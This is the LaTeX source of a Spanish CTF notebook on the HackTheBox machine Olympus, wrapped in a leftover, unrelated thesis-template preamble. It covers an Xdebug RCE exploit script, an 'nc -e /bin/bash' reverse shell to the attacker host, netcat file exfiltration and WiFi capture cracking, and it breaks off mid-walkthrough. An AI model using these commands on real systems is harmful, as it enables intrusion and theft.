% This is the Reed College LaTeX thesis template. Most of the work
% for the document class was done by Sam Noble (SN), as well as this
% template. Later comments etc. by Ben Salzberg (BTS). Additional
% restructuring and APA support by Jess Youngberg (JY).
% Your comments and suggestions are more than welcome; please email
% them to cus@reed.edu
%
% See http://web.reed.edu/cis/help/latex.html for help. There are a
% great bunch of help pages there, with notes on
% getting started, bibtex, etc. Go there and read it if you're not
% already familiar with LaTeX.
%
% Any line that starts with a percent symbol is a comment.
% They won't show up in the document, and are useful for notes
% to yourself and explaining commands.
% Commenting also removes a line from the document;
% very handy for troubleshooting problems. -BTS

% As far as I know, this follows the requirements laid out in
% the 2002-2003 Senior Handbook. Ask a librarian to check the
% document before binding. -SN

%%
%% Preamble
%%
% \documentclass{<something>} must begin each LaTeX document
\documentclass{assets/ipesethesis}
% Packages are extensions to the basic LaTeX functions. Whatever you
% want to typeset, there is probably a package out there for it.
% Chemistry (chemtex), screenplays, you name it.
% Check out CTAN to see: http://www.ctan.org/
%
\usepackage{assets/ipesethesis}
\usepackage{assets/EPFLletter50}
%\usepackage{lua_styling}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% SOME COMMANDS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand\conclimits[1]{\textcolor{black}{\textbf{#1}}}
\hyphenation{Multi-}
\hyphenation{decision-making}
\newcommand{\sqrfinal}{\textcolor{teal}{$\blacksquare$}} % end mark
\newcommand{\setfont}[2]{{\fontfamily{#1}\selectfont #2}}
%\setfont{calligra}{This is Calligra font.}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% ACRONYMS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newacronym{emat}   {$\Delta T_{min}$}  {heat exchanger minimum approach temperature}
\newacronym{adt}    {adt}   {air-dried tonnes}
\newacronym{chp}    {CHP}   {combined heat and power}
\newacronym{ga}     {GA}    {genetic algorithm}
\newacronym{gbd}    {GBD}   {generalized Benders decomposition}
\newacronym{gcc}    {GCC}   {grand composite curve}
\newacronym{gdp}    {GDP}   {generalized disjuctive programming}
\newacronym{ghg}    {GHG}   {greenhouse gas}
\newacronym{gwp}    {GWP}   {global warming potential}
\newacronym{hen}    {HEN}   {heat exchanger network}
\newacronym{himan}  {HIMAN} {heat-integrated mass allocation network}
\newacronym{hiwan}  {HIWAN} {heat-integrated water allocation network}
\newacronym{hld}    {HLD}   {heat load distribution}
\newacronym{hrat}   {HRAT}  {heat recovery approach temperature}
\newacronym{icc}    {ICC}   {integer-cut constraint}
\newacronym{lp}     {LP}    {linear programming}
\newacronym{men}    {MEN}   {mass exchange network}
\newacronym{mer}    {MER}   {minimum energy requirement}
\newacronym{milp}   {MILP}  {mixed-integer linear programming}
\newacronym{minlp}  {MINLP} {mixed-integer nonlinear programming}
\newacronym{moo}    {MOO}   {multi-objective optimization}
\newacronym{mpec}   {MPEC}  {mathematical programming with equilibrium constraints}
\newacronym{nim}    {NIM}   {non-isothermal mixing}
\newacronym{nlp}    {NLP}   {nonlinear programming}
\newacronym{orc}    {ORC}   {organic Rankine cycle}
\newacronym{sa}     {SA}    {simulated annealing}
\newacronym{sic}    {SIC}   {specific investment cost}
\newacronym{tac}    {TAC}   {total annualized cost}
\newacronym{whr}    {WHR}   {waste heat recovery}

\makeglossaries
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% CHAPTERS' NAME
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand{\thesistitle}           {Methodologies for simultaneous optimization of heat, mass, and power in industrial processes}

\newcommand{\intro}                 {Introduction}

\newcommand{\partone}               {The big trilemma:\\water--energy--waste nexus}
\newcommand{\partonetoc}            {The big trilemma: water--energy--waste nexus}

\newcommand{\partoneone}            {Survey of methodologies in \\ heat-integrated water allocation network}
\newcommand{\partoneonetoc}         {Survey of methodologies in heat-integrated water allocation network}

\newcommand{\partonetwo}            {Targeting methodology \\ with industrial application}
\newcommand{\partonetwotoc}         {Targeting methodology with industrial application}

\newcommand{\partonethree}          {Heat-integrated water allocation \\ network design}
\newcommand{\partonethreetoc}       {Heat-integrated water allocation network design}

\newcommand{\parttwo}               {Medium-temperature \\ heat recovery}
\newcommand{\parttwotoc}            {Medium-temperature heat recovery}

\newcommand{\parttwoone}            {Survey of methodologies in organic \\ Rankine cycle modeling and optimization}
\newcommand{\parttwoonetoc}         {Survey of methodologies in organic Rankine cycle modeling and optimization}

\newcommand{\parttwotwo}            {Optimal integration of organic Rankine \\ cycles in industrial processes}
\newcommand{\parttwotwotoc}         {Optimal integration of organic Rankine cycles in industrial processes}

\newcommand{\partthree}             {Towards the grand design}

\newcommand{\partthreeone}          {Holistic approaches: \\ background and motivation}
\newcommand{\partthreeonetoc}       {Holistic approaches: background and motivation}

\newcommand{\partthreetwo}          {Industrial application: kraft pulp mill}

\newcommand{\conc}                  {Concluding remarks}

\newcommand{\appendixLINEAR}        {Algorithm for outer and inner \\ approximation of thermal streams}
\newcommand{\appendixLINEARtoc}     {Algorithm for outer and inner approximation of thermal streams}

\newcommand{\appendixPARCOORD}      {Interactive parallel coordinate \\ visualization tool for fluid selection}
\newcommand{\appendixPARCOORDtoc}   {Interactive parallel coordinate visualization tool for fluid selection}

\newcommand{\appendixSOLVERSOPTIONS}{Assumptions and solver options for test cases}

\newcommand{\appendixTBDATA}        {Kraft pulp mill data}
  % include acronyms and also name of chapters

\usepackage{graphicx,latexsym}
\usepackage{amsmath}
\usepackage{amssymb,amsthm}
\usepackage{longtable,booktabs,setspace}
\usepackage{chemarr} %% Useful for one reaction arrow, useless if you're not a chem major
\usepackage[hyphens]{url}
% Added by CII
\usepackage{hyperref}
\usepackage{lmodern}
\usepackage{float}
\floatplacement{figure}{H}
% End of CII addition
\usepackage{rotating}

% Next line commented out by CII
%%% \usepackage{natbib}
% Comment out the natbib line above and uncomment the following two lines to use the new
% biblatex-chicago style, for Chicago A. Also make some changes at the end where the
% bibliography is included.
%\usepackage{biblatex-chicago}
%\bibliography{thesis}


% Added by CII (Thanks, Hadley!)
% Use ref for internal links
\renewcommand{\hyperref}[2][???]{\autoref{#1}}
\def\chapterautorefname{Chapter}
\def\sectionautorefname{Section}
\def\subsectionautorefname{Subsection}
% End of CII addition

% Added by CII
\usepackage{caption}
\captionsetup{width=5in}
% End of CII addition

% \usepackage{times} % other fonts are available like times, bookman, charter, palatino

% Syntax highlighting #22
  \usepackage{color}
  \usepackage{fancyvrb}
  \newcommand{\VerbBar}{|}
  \newcommand{\VERB}{\Verb[commandchars=\\\{\}]}
  \DefineVerbatimEnvironment{Highlighting}{Verbatim}{commandchars=\\\{\}}
  % Add ',fontsize=\small' for more characters per line
  \usepackage{framed}
  \definecolor{shadecolor}{RGB}{248,248,248}
  \newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
  \newcommand{\AlertTok}[1]{\textcolor[rgb]{0.94,0.16,0.16}{#1}}
  \newcommand{\AnnotationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.77,0.63,0.00}{#1}}
  \newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\BuiltInTok}[1]{#1}
  \newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
  \newcommand{\CommentVarTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\ConstantTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
  \newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
  \newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\DocumentationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\ErrorTok}[1]{\textcolor[rgb]{0.64,0.00,0.00}{\textbf{#1}}}
  \newcommand{\ExtensionTok}[1]{#1}
  \newcommand{\FloatTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
  \newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\ImportTok}[1]{#1}
  \newcommand{\InformationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
  \newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
  \newcommand{\NormalTok}[1]{#1}
  \newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
  \newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
  \newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
  \newcommand{\RegionMarkerTok}[1]{#1}
  \newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
  \newcommand{\VerbatimStringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
  \newcommand{\WarningTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}

% To pass between YAML and LaTeX the dollar signs are added by CII
\title{2021 - S4viNotes}
\author{Lo0pInG 404}
% The month and year that you submit your FINAL draft TO THE LIBRARY (May or December)
\date{updated on 2021-07-23}
\division{}
\unitname{}{}{}
\advisor{}
\institution{}
\scholardegree{}
%If you have two advisors for some reason, you can use the following
% Uncommented out by CII
% End of CII addition

%%% Remember to use the correct department!
\department{}
% if you're writing a thesis in an interdisciplinary major,
% uncomment the line below and change the text as appropriate.
% check the Senior Handbook if unsure.
%\thedivisionof{The Established Interdisciplinary Committee for}
% if you want the approval page to say "Approved for the Committee",
% uncomment the next line
%\approvedforthe{Committee}

% Added by CII
%%% Copied from knitr
%% maxwidth is the original width if it's less than linewidth
%% otherwise use linewidth (to make sure the graphics do not exceed the margin)
\makeatletter
\def\maxwidth{ %
  \ifdim\Gin@nat@width>\linewidth
    \linewidth
  \else
    \Gin@nat@width
  \fi
}
\makeatother

\renewcommand{\contentsname}{Table of Contents}
% End of CII addition

\setlength{\parskip}{0pt}

% Added by CII

\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}

\Acknowledgements{

}

\Dedication{

}

\Preface{

}

\Abstract{

}

% End of CII addition
%%
%% End Preamble
%%
%

\begin{document}

% Everything below added by CII
  \maketitle

\frontmatter % this stuff will be roman-numbered
\pagenumbering{roman}
%\pagestyle{empty} % this removes page numbers from the frontmatter


  \begin{resume}
    \hypertarget{preface}{%
    \section*{Preface}\label{preface}}
    \addcontentsline{toc}{section}{Preface}
    
    \hypertarget{introduction}{%
    \subsection*{Introduction}\label{introduction}}
    \addcontentsline{toc}{subsection}{Introduction}
    
    Este es el Notebook de los lives en Twitch del tito S4vitar. Aqui podreis encontrar los passos impotantes de cada maquina
    echa. Este book no tiene que estar considerado como una lista de Walktrough, pero mas como unas notas de technicas utilizadas
    durante la resolucion de maquinas.
    
    Cada maquina esta separada de la manera siguiente:
    
    \begin{itemize}
    \tightlist
    \item
      Introduccion y link del directo
    \item
      Fase de enumeracion
    \item
      Notas sobre las vulnerabilidades econtradas
    \item
      Explotacion de vulnerabilidades para ganar accesso a la maquina victima
    \item
      Parte de escalacion de privilegios
    \end{itemize}
    
    Espero que este book ayude a la comunidad.
    
    \hypertarget{acknoledgement}{%
    \subsection*{Acknoledgement}\label{acknoledgement}}
    \addcontentsline{toc}{subsection}{Acknoledgement}
    
    Por cierto, me gustaria dar las gracias a S4vitar por su contenido de calidad y las ganas que mete a lo que hace para la comunidad.
    Son estas ganas que me motivaron en querer aprender mas y mas.
  \end{resume}




% Muz \phantomsection \printglossary[type=\acronymtype,title = List of Acronyms,nonumberlist] \addcontentsline{toc}{chapter}{List of acronyms} \cleardoublepage


  \hypersetup{linkcolor=black}
  \setcounter{tocdepth}{1}
  \tableofcontents


\mainmatter % here the regular arabic numbering starts
\pagestyle{fancyplain} % turns page numbering back on

\hypertarget{preface-1}{%
\chapter*{Preface}\label{preface-1}}
\addcontentsline{toc}{chapter}{Preface}

\hypertarget{introduction-1}{%
\section*{Introduction}\label{introduction-1}}
\addcontentsline{toc}{section}{Introduction}

Este es el Notebook de los lives en Twitch del tito S4vitar. Aqui podreis encontrar los passos impotantes de cada maquina
echa. Este book no tiene que estar considerado como una lista de Walktrough, pero mas como unas notas de technicas utilizadas
durante la resolucion de maquinas.

Cada maquina esta separada de la manera siguiente:

\begin{itemize}
\tightlist
\item
  Introduccion y link del directo
\item
  Fase de enumeracion
\item
  Notas sobre las vulnerabilidades econtradas
\item
  Explotacion de vulnerabilidades para ganar accesso a la maquina victima
\item
  Parte de escalacion de privilegios
\end{itemize}

Espero que este book ayude a la comunidad.

\hypertarget{acknoledgement-1}{%
\section*{Acknoledgement}\label{acknoledgement-1}}
\addcontentsline{toc}{section}{Acknoledgement}

Por cierto, me gustaria dar las gracias a S4vitar por su contenido de calidad y las ganas que mete a lo que hace para la comunidad.
Son estas ganas que me motivaron en querer aprender mas y mas.

\hypertarget{olympus}{%
\chapter*{Olympus}\label{olympus}}
\addcontentsline{toc}{chapter}{Olympus}

\hypertarget{introduccion}{%
\section*{Introduccion}\label{introduccion}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 22/07/2021 se llama Olympus.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1094808182}{Twitch: S4vitaar Olympus maquina}

\hypertarget{enumeracion}{%
\section*{Enumeracion}\label{enumeracion}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping}{%
\subsubsection*{Ping}\label{ping}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.83}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux

\hypertarget{nmap}{%
\subsubsection*{Nmap}\label{nmap}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.83}
\end{Highlighting}
\end{Shaded}

Que lento madre mia\ldots{}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.10.83 -oG allPorts}
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p53,80,2222 10.10.10.83 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
53 & domain & Domain zone transfer & Un nombre de dominio\tabularnewline
80 & http & whatweb, http-enum & Checkear la web\tabularnewline
2222 & ssh & conneccion a la maquina & Usuario contraseña\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{empezamos-por-el-puerto-80}{%
\subsection*{Empezamos por el puerto 80}\label{empezamos-por-el-puerto-80}}
\addcontentsline{toc}{subsection}{Empezamos por el puerto 80}

\hypertarget{whatweb}{%
\subsubsection*{Whatweb}\label{whatweb}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.83}
\end{Highlighting}
\end{Shaded}

Nada interessante

\hypertarget{browsear-la-web}{%
\subsubsection*{Browsear la web}\label{browsear-la-web}}
\addcontentsline{toc}{subsubsection}{Browsear la web}

Hay una imagen, se nos occure steganografia pero no hay nada.

El Wappalyser no dice que el servidor web empleado es un Apache.

\hypertarget{wfuzz}{%
\subsubsection*{WFuzz}\label{wfuzz}}
\addcontentsline{toc}{subsubsection}{WFuzz}

Como no hay mucho mas que ver, applicaremos \textbf{fuzzing} para descubrir si hay mas rutas.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.83/FUZZ}
\end{Highlighting}
\end{Shaded}

No hay nada, creamos un fichero de extensiones txt, php, html y fuzzeamos otravez.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions http://10.10.10.83/FUZZ.FUZ2Z}
\end{Highlighting}
\end{Shaded}

No hay nada.

\hypertarget{dig}{%
\subsubsection*{Dig}\label{dig}}
\addcontentsline{toc}{subsubsection}{Dig}

\textbf{Dig} a no confundir con dick ;) es una utilidad que nos permite recojer informaciones a nivel de dns.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Añadir la ip y el hostname en el /etc/hosts

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{10.10.10.83}\NormalTok{ olympus.htb}
\end{Highlighting}
\end{Shaded}
\item
  Lanzar \textbf{Dig} para recojer informaciones

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dig}\NormalTok{ @10.10.10.83 olympus.htb}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

No hay respuesta valida lo que quiere decir que el dominio no es valido

\hypertarget{checkear-las-cabezeras-de-las-respuestas-a-lado-del-servidor}{%
\subsubsection*{Checkear las cabezeras de las respuestas a lado del servidor}\label{checkear-las-cabezeras-de-las-respuestas-a-lado-del-servidor}}
\addcontentsline{toc}{subsubsection}{Checkear las cabezeras de las respuestas a lado del servidor}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -X GET -s }\StringTok{"http://10.10.10.83/"}\NormalTok{ -I}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/curl-xdebug} \caption{curl xdebug}\label{fig:unnamed-chunk-2}
\end{figure}

Algo interessante en la respuesta es el Xdebug 2.5.5. Xdebug es una extension de PHP para hacer debug con haremientas
depuracion tradicionales, desde el editor, tal como se hace en lenguajes de programacion clasicos. Mas informaciones sobre
Xdebug en \href{https://desarrolloweb.com/articulos/que-es-instalar-configurar-xdebug.html}{desarolloweb.com}

\hypertarget{vulnerability-assessment}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{searchsploit}{%
\subsection*{searchsploit}\label{searchsploit}}
\addcontentsline{toc}{subsection}{searchsploit}

Checkeamos si existe un exploit relacionado con \textbf{Xdebug 2.5.5}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ xdebug}
\end{Highlighting}
\end{Shaded}

Hay un script en Ruby (Metasploit) que permitiria hacer execucion de commandos. Analizando el exploit con el commando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -x xdebug}
\end{Highlighting}
\end{Shaded}

Que hace el exploit?

\begin{itemize}
\tightlist
\item
  esta tirando de index.php
\item
  se pone en escucha en el equipo de attackante en el puerto 9000
\item
  usa el commando eval
\item
  deposita en una ruta del servidor un fichero con su contenido en base64
\item
  executa el fichero con php
\item
  la peticion esta enviada por el methodo GET con \texttt{\textquotesingle{}Cookie\textquotesingle{}\ =\textgreater{}\ \textquotesingle{}XDEBUG\_SESSION=+rand\_text\_alphanumeric(10)\textquotesingle{}}
\end{itemize}

\hypertarget{pruebas-del-exploit}{%
\subsection*{Pruebas del exploit}\label{pruebas-del-exploit}}
\addcontentsline{toc}{subsection}{Pruebas del exploit}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha en el puerto 9000

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 9000}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos un peticion GET con el XDEBUG\_SESSION en cookie

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.83/index.php"}\NormalTok{ -H }\StringTok{"Cookie: XDEBUG_SESSION=EEEEE"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Recivimos datos del lado del servidor.

\hypertarget{exploitacion-de-la-vulnerabilida}{%
\subsection*{Exploitacion de la vulnerabilida}\label{exploitacion-de-la-vulnerabilida}}
\addcontentsline{toc}{subsection}{Exploitacion de la vulnerabilida}

Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit\_shell.py

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ pdb}

\ImportTok{from}\NormalTok{ base64 }\ImportTok{import}\NormalTok{ b64encode}

\NormalTok{ip_port }\OperatorTok{=}\NormalTok{ (}\StringTok{'0.0.0.0'}\NormalTok{, }\DecValTok{9000}\NormalTok{)}
\NormalTok{sk }\OperatorTok{=}\NormalTok{ socket.socket()}
\NormalTok{sk.bind(ip_port)}
\NormalTok{sk.listen(}\DecValTok{10}\NormalTok{)}
\NormalTok{conn, addr }\OperatorTok{=}\NormalTok{ sk.accept()}

\ControlFlowTok{while} \VariableTok{True}\NormalTok{:}
\NormalTok{    client_data }\OperatorTok{=}\NormalTok{ conn.recv(}\DecValTok{1024}\NormalTok{)}
    \BuiltInTok{print}\NormalTok{(client_data)}

\NormalTok{    data }\OperatorTok{=} \BuiltInTok{input}\NormalTok{(}\StringTok{'>> '}\NormalTok{)}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ data.encode(}\StringTok{'utf-8'}\NormalTok{)}
\NormalTok{    conn.sendall(b}\StringTok{'ebal -i -- '} \OperatorTok{+}\NormalTok{ b64encode(data) }\OperatorTok{+}\NormalTok{ b}\StringTok{'}\CharTok{\textbackslash{}x00}\StringTok{'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Lanzamos el exploit

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ exploit_shell.py}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos una peticion GET

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.83/index.php"}\NormalTok{ -H }\StringTok{"Cookie: XDEBUG_SESSION=EEEEE"}
\end{Highlighting}
\end{Shaded}
\item
  En la mini shell abierta del exploit\_shell.py lanzamos un \textbf{whoami}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{system}\OtherTok{(}\StringTok{'whoami'}\OtherTok{)}    
\end{Highlighting}
\end{Shaded}
\item
  En la respuesta del \textbf{curl} se nos pone \emph{www-data}
\end{enumerate}

El exploit functionna y el commando \textbf{ifconfig} nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.

\hypertarget{vuln-exploit-gaining-access}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-la-vuln-xdebug}{%
\subsection*{Ganando accesso con la vuln XDebug}\label{ganando-accesso-con-la-vuln-xdebug}}
\addcontentsline{toc}{subsection}{Ganando accesso con la vuln XDebug}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha con netcat

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Con el exploit exploit\_shell.py lanzamos una reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{system}\OtherTok{(}\StringTok{'nc -e /bin/bash 10.10.14.20 443'}\OtherTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

De esta manera, hemos ganado accesso al equipo.

\hypertarget{tratamiento-de-la-tty}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{investigamos-la-maquina}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina}}
\addcontentsline{toc}{subsection}{Investigamos la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home}
\CommentTok{#Output}
\ExtensionTok{zeus}

\FunctionTok{ls}\NormalTok{ /home/zeus}
\CommentTok{#Output}
\ExtensionTok{airgeddon}
\end{Highlighting}
\end{Shaded}

\hypertarget{airgeddon.cap-crack-with-aircrack-ng}{%
\subsection*{Airgeddon.cap crack with Aircrack-ng}\label{airgeddon.cap-crack-with-aircrack-ng}}
\addcontentsline{toc}{subsection}{Airgeddon.cap crack with Aircrack-ng}

Airgeddon es una suite de utilidades para hacer auditorias wifi. Entrando en el repertorio airgeddon del usuario zeus encontramos
otro repertorio llamado captured. Filtrando el contenido del directorio aigedon por ficheros \texttt{find\ \textbackslash{}-type\ f} encontramos un fichero
\textbf{captured.cap}

Vamos a transferir el fichero captured.cap a nuestro equipo de attackante

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attackante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ captured.cap}
\end{Highlighting}
\end{Shaded}
\item
  En el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.28 443 }\OperatorTok{<}\NormalTok{ captured.cap}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Saviendo que Airgeddon es una utilidad de auditoria wifi intentamos ver lo que contiene el \textbf{captured.cap} con la utilidad \textbf{aircrack-ng}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{aircrack-ng}\NormalTok{ captured-cap}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/aircrack-airgeddon} \caption{aircrack-ng sobre airgeddon capture}\label{fig:unnamed-chunk-3}
\end{figure}

